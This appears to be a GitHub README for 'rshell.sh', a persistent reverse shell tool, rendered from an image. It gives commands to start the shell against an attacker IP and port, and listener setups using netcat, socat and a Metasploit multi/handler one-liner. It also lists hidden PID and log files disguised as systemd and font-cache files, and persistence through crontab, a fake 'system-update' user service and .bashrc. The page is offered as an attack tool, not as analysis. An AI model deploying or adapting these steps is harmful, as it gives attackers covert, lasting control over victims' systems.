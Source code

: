 ### Basic Deployment
```bash
# Make script executable
chmod +x rshell.sh

# Start persistent reverse shell
./rshell.sh <ATTACKER_IP> <ATTACKER_PORT>

# Example
./rshell.sh 192.168.1.100 4444
```

### Management Commands
```bash
# Check if running (silent - check exit code)
./rshell.sh status
echo $?  # 0 = running, 1 = not running

# Stop the reverse shell (full cleanup)
./rshell.sh stop
```

### Attacker Setup
```bash
# Set up listener (choose one)

# Option 1: Netcat
nc -lvp 4444

# Option 2: Socat (more stable)
socat file:`tty`,raw,echo=0 tcp-listen:4444

# Option 3: MSF Handler
msfconsole -x "use exploit/multi/handler; set payload linux/x64/shell/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4444; exploit"
```

## 📁 File Locations

### Primary Locations (requires elevated privileges)
- **PID File**: `/var/run/.systemd-resolve`
- **Log File**: `/var/log/.systemd-journal`

### Backup Locations (user-accessible)
- **PID File**: `/tmp/.font-cache`
- **Log File**: `/tmp/.cache-update`

### Persistence Files
- **Crontab**: `*/15 * * * * /path/to/script`
- **Systemd**: `$HOME/.config/systemd/user/system-update.service`
- **Bashrc**: Auto-start entry in `~/.bashrc`
